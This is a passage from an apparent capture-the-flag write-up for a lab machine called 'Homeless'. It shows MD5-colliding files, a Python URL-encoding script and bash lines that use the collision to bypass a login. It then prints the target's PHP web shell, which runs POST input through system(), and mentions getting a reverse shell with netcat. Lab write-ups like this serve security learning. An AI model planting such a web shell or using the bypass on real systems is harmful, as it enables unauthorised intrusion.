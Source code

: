 ```bash
$ md5sum f*
280329d5f2d5dca79041a4a9d50c2bff *f1
280329d5f2d5dca79041a4a9d50c2bff *f2
280329d5f2d5dca79041a4a9d50c2bff *f3
```

Now, in order to successfully send the entire content of the files without any modification, we will need to URL encode their content.

There are multiple tools that can URLencode a file, but I preferred to code this little python code:

```py
#!/usr/bin/python3
import sys
import urllib.parse

if len(sys.argv) < 1:
    print("[-] Missing file name")
else:
    try:    
        with  open(sys.argv[1],'rb') as f:
            contents = f.read()
            url = urllib.parse.quote(contents)
            print("[+] Urlencoded file:")
            print(url)
    except Exception as e:
        print("[-] Could not open file")
        print(e)
```

Using this script is possible to encode each file to be used within an HTTP Post request. If you try, you'll see it's possible to login using any combination of the files:

```bash
username=$(python3 urlencode.py f1 | grep -v Urlencoded)
password=$(python3 urlencode.py f2 | grep -v Urlencoded)
code=$(python3 urlencode.py f3 | grep -v Urlencoded)
```

Finally, we can review the last file, `admin.php`, that is actually a bit disappointing:

```php
<?php
if($_SERVER['REQUEST_METHOD'] === "POST" && isset($_POST['submit'])){
    $cmd = (string)$_POST['command'];
    echo "<pre>";system($cmd);echo "</pred>";
}

?>
```

Yes, it is a web shell. To simplify the exploitation process, netcat (traditional with -e option) is already installed on Homeless; so, getting a reverse shell is simple as you can imagine.

##### Wrapping Up
